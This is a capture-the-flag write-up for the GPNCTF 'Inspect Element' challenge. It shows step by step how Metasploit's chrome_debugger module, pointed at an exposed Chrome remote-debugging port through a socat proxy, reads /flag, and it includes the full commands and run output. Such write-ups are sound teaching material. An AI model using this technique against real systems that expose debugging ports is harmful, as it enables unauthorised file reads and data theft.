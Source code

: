 # Description

Maybe using Inspect Element will help you!

Small hint: If you're struggling with reproducing it on remote, you can use socat to proxy the remote instance to 
localhost:1337 like this: `socat TCP-LISTEN:1337,fork OPENSSL:xxx--xxx-1234.ctf.kitctf.de:443`
and it should behave exactly like a locally running docker container.

# Solution

Not really sure how to start here .. since we only have access to the Dockerfile and when trying to access the webpage
we get nowhere. But since this is a Inspect Element challenge, it's probably something with debugging or developer options 
(and the flag for chrome in Dockerfile `--remote-debugging-port=13370` confirms it). Since I had no idea how to aproach
chrome developer options I tried to google it and found a metasploit exploit which can read arbitrary files using the
chrome debugger ...

First, lets start metasploit with `mfsconsole`.

After that we need to search for the module `search chrome debugger` which shows us this module:
```
   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/gather/chrome_debugger  2019-09-24       normal  No     Chrome Debugger Arbitrary File Read / Arbitrary Web Request
```
which sounds about right. Okay so lets use this module `use auxiliary/gather/chrome_debugger` and see what options we need to
provide `info 0` (or `info auxiliary/gather/chrome_debugger`):
```
Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILEPATH                   no        File to fetch from remote machine.
  RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT     9222             yes       The target port (TCP)
  TIMEOUT   10               yes       Time to wait for response
  URL                        no        Url to fetch from remote machine.
```

Since I've already ran the command from the description hint to proxy the remote instance to localhost, therefore the
parameters we need are:
- FILEPATH = /flag
- RHOSTS = 127.0.0.1
- RPORT = 1337

So let's set the variables and run the exploit:
```
set FILEPATH /flag
set RHOSTS 127.0.0.1
set RPORT 1337
run
```

The results:
```
[*] Running module against 127.0.0.1

[*] Attempting Connection to ws://127.0.0.1:1337/devtools/page/BF5B0F8D374DEDC80BEDA1B8BF71A3F8
[*] Opened connection
[*] Attempting to load url file:///flag
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Stored file:///flag at /home/kali/.msf4/loot/20240603171814_default_127.0.0.1_chrome.debugger._435072.txt
[*] Auxiliary module execution completed
```

And display the results:
```
cat /home/kali/.msf4/loot/20240603171814_default_127.0.0.1_chrome.debugger._435072.txt
<html>
  <head>
    <meta name="color-scheme" content="light dark">
  </head>
  <body>
    <pre style="word-wrap: break-word; white-space:pre-wrap;">
      GPNCTF{D4NG3R0U5_D3BUGG3R}
    </pre>
  </body>
</html> 
```





